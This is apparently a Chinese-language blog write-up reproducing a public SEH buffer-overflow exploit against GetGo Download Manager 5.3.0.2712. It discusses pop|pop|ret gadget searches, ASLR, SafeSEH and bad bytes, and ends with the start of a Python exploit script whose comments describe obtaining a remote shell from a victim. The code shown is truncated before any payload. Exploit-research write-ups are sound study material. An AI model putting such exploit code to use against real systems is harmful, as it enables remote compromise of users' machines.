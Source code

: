 ![](/images/180703_2.png)

先看看地址0x72d11f39这个pop|pop|ret是否正确，看了一下地址空间，发现根本不存在。。。

只能自力更生重新找一个pop|pop|ret。为了保证指令的稳定性以及可用性，我们尽量在non-ASLR && noSafeSEH的模块上查找。

使用mona插件探测一下noaslr:

![](/images/180703_3.png)

看到这儿就基本凉凉了，有两个模块尽管没有ASLR，却都开启了SafeSEH。SafeSEH是一定要不得的，所以只好退而求其次，ASLR就ASLR吧，至少本地能过:( 

![](/images/180703_4.png)

彻底凉了，现在我明白为什么提交者在XP sp3上测试了。。。

不过既然走到这儿了，我们就继续验证一下问题是否存在吧，忽略SafeSEH，先在GetGo.exe空间和Resource_En.dll空间中找一个pop|pop|ret。

![](/images/180703_5.png)

忽然发现GetGo空间的地址存在bad byte——"\x00"，根据提交者在msfvenom的-b参数可知这可能会引起截断，而Resource_En.dll中找了一圈却一个都没有。

算了，ASLR也不要求了，直接kernel32.dll吧，至少本次系统关机前都是稳定的。。。

![](/images/180703_6.png)

改写的exp:

```python
#!/usr/bin/python
 
#
# Exploit Author: bzyo
# Twitter: @bzyo_
# Exploit Title: GetGo Download Manager 5.3.0.2712 - Remote Buffer Overflow (SEH)
# Date: 02-24-2018
# Vulnerable Software: GetGo Download Manager 5.3.0.2712
# Vendor Homepage: http://www.getgosoft.com/
# Version: 5.3.0.2712
# Software Link: https://www.exploit-db.com/apps/b26d82eadef93531f8beafac6105ef13-GetGoDMSetup.exe
# Tested On: Windows XP SP3
#
#
# PoC: 
# 1. setup listener 443 on attacking machine
# 2. run script on attacking machine
# 3. open app on victim machine
# 4. go to download
# 5. select new, add http://attackerip to URL, index.html to File Name, and select OK
# 6. check listener, remote shell
#
 
import sys
import socket
import os
import time
 
host = "0.0.0.0"
port = 80
  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((host, port))
s.listen(1)
print "\n[+] listening on %d ..." % port
 
bz, addr = s.accept()
print "[+] connection accepted from %s" % addr[0]
```